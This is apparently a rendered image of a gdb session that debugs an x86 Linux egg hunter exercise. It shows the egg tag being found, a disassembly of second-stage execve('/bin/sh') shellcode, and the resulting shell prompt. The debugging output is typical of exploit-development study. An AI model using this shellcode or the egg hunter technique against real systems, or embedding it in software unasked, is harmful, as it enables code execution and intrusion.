 ```nasm
0x0804a086 in egg_hunter ()
(gdb)
$4061 = 0x534b534b
$4062 = 0x804a0a4
$4063 = 0x804a0a0
$4064 = 0x804a0a8
0x804a0a8 <second_stage+8>:	0x31	0xc0	0x50	0x68
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function second_stage:
   0x0804a0a0 <+0>:	dec    ebx
   0x0804a0a1 <+1>:	push   ebx
   0x0804a0a2 <+2>:	dec    ebx
   0x0804a0a3 <+3>:	push   ebx
   0x0804a0a4 <+4>:	dec    ebx
   0x0804a0a5 <+5>:	push   ebx
   0x0804a0a6 <+6>:	dec    ebx
   0x0804a0a7 <+7>:	push   ebx
=> 0x0804a0a8 <+8>:	xor    eax,eax
   0x0804a0aa <+10>:	push   eax
   0x0804a0ab <+11>:	push   0x68732f6e
   0x0804a0b0 <+16>:	push   0x69622f2f
   0x0804a0b5 <+21>:	mov    ebx,esp
   0x0804a0b7 <+23>:	push   eax
   0x0804a0b8 <+24>:	mov    edx,esp
   0x0804a0ba <+26>:	push   ebx
   0x0804a0bb <+27>:	mov    ecx,esp
   0x0804a0bd <+29>:	mov    al,0xb
   0x0804a0bf <+31>:	int    0x80
   0x0804a0c1 <+33>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a0a8 in second_stage ()
(gdb) c
Continuing.
process 5139 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
$
```
